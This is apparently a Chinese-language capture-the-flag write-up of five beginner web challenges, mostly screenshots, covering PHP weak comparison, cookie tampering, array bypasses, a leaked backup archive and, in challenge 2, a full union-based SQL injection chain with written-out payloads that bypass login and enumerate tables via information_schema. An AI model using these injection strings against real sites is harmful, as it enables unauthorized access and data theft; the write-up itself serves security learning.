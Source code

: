 1.

打开链接后，先查看页面源代码，看到了两个文件

![83b148e199e373a3227e8c018a3bc4b.png](https://s2.loli.net/2024/05/26/LxrD92hspPyjZNJ.png)

点进bay.php发现了提示

![dcde0ef3d85a8aeee38ec7ac890946d.png](https://s2.loli.net/2024/05/26/keHB5UyCAj1QIiz.png)

![c50ef86d5e09a0cba1f04bab55904c0.png](https://s2.loli.net/2024/05/26/mnl1gV7vjSpBzib.png)

第一要是来自cuit的学生并要输入正确的密码，第二是要用post方式传参，password==404(php的弱类型比较）

![561dd6d3e2e65fabc19c2f544d5dde7.png](https://s2.loli.net/2024/05/26/DtYEusOiSQlMR8U.png)

传参后发现并没有用，抓个包试试

![6d143c908bbde9000347daae0f896d7.png](https://s2.loli.net/2024/05/26/Jz4ko7dUVehfRnW.png)

我们发现cookie的值为零，想到第一个提示，将值改为1试试

![4267712ceca3fff08304a8528360d82.png](https://s2.loli.net/2024/05/26/VYrkozwFbD5MeTA.png) 

提示买flag还需要100000000money,传参

![4dde869653275e60e222464b1e42435.png](https://s2.loli.net/2024/05/26/Sa4fLvqWpTdCZyQ.png)

提示太长了，使用数组绕过

![352792cd7abb155d1760ab3af19c2c8.png](https://s2.loli.net/2024/05/26/65vcgkmN47bKQtr.png)

拿到flag

2.
在用户名的输入框中输入万能账号 admin' or 1=1 #,密码随便输

![1aaca1f77ef9c94d7332b655726c5d0.png](https://s2.loli.net/2024/05/26/xDBUwNr4bAC1kyt.png)

![c310509537e92d3ab709afd374d1a04.png](https://s2.loli.net/2024/05/26/M7vfXVLhuYaKFtk.png)

登陆成功，有回显，可以注入
首先,测试一下回显的位置

    a' union select 1,2,3 #

![9ef7a531700e3b988ca9cd52c63a163.png](https://s2.loli.net/2024/05/26/WjnzJlhAiE7dbZM.png)

回显字段为2，获取数据库

    a' union select 1,database(),3 #

![0ea4600cba15450d6cc039511df87f2.png](https://s2.loli.net/2024/05/26/e4QIotW1Bh89yF3.png)

获取表

        a' union select 1,
    (select group_concat(table_name) from information_schema.tables
    where table_schema='web2')
    ,3 #

![6f1e5abaf7849d2c6d432684ad2cfc6.png](https://s2.loli.net/2024/05/26/B6hPValJLgGjkzp.png)

获取flag的字段

    a' union select 1,
    (select group_concat(column_name) from information_schema.columns
    where table_schema='web2' and table_name='flag')
    ,3 #

![4d1f9a8e4dbb941017536282128b1e3.png](https://s2.loli.net/2024/05/26/LrxuGcneC1vEl4h.png)

获取flag表的数据

    a' union select 1,(select flag from flag),3 #
    
![0213958073832134f979ef4d02743c2.png](https://s2.loli.net/2024/05/26/a7nsAt4Rk96USjD.png)

拿到flag

3.

打开后，查看页面源代码

![a09d8a0a2bb82e4944e8a0898039965.png](https://s2.loli.net/2024/05/26/C8qHRvsAMekrE96.png)

直接输入错误

![d9466d90a0a8c9ce1fad8e7cf604a10.png](https://s2.loli.net/2024/05/26/QMUY1RyFtc3nkeL.png)

尝试post传参

![4d1dee1c3daf57a36a5ab3bf98383a8.png](https://s2.loli.net/2024/05/26/ICGvnuWzxp2MNA9.png)

拿到flag

4.

![658bdb34455df9b68fac05d646479e8.png](https://s2.loli.net/2024/05/26/J1oQ7rvpI4GAWdg.png)

打开是这个

![41cfb182493d4146732e8cc9019a1ba.png](https://s2.loli.net/2024/05/26/1KFgmo5iBtMZxYX.png)

结合题目，抓个包试试

![79264c94994f80605f06b8e0e075dbe.png](https://s2.loli.net/2024/05/26/oAGb6cva3ZMirRh.png)

拿到flag

5.

![90871495820603ff7135551bade4473.png](https://s2.loli.net/2024/05/26/qF5PvcNHfBlY18i.png)

打开后输入/www.zip下载文件

![03c49f786040766c2b6d376d39e38bc.png](https://s2.loli.net/2024/05/26/nluI2zJQSXBjpPh.png)

打开后发现有两个文件，提示说在fl000g.txt

![d26addcc7072e2c5bc53bf92b1ee9a1.png](https://s2.loli.net/2024/05/26/wxPAGsTehWu31yd.png)

打开后输入发现并不对

![9b8095372bc8d58b0a832d4628e2896.png](https://s2.loli.net/2024/05/26/Aimz5D7OhNkpBWH.png)

我们再尝试/fl000g.txt

![608e8ac0f40b353e305a1c131e184c7.png](https://s2.loli.net/2024/05/26/WgEoFus9erQ3ifz.png)

成功拿到flag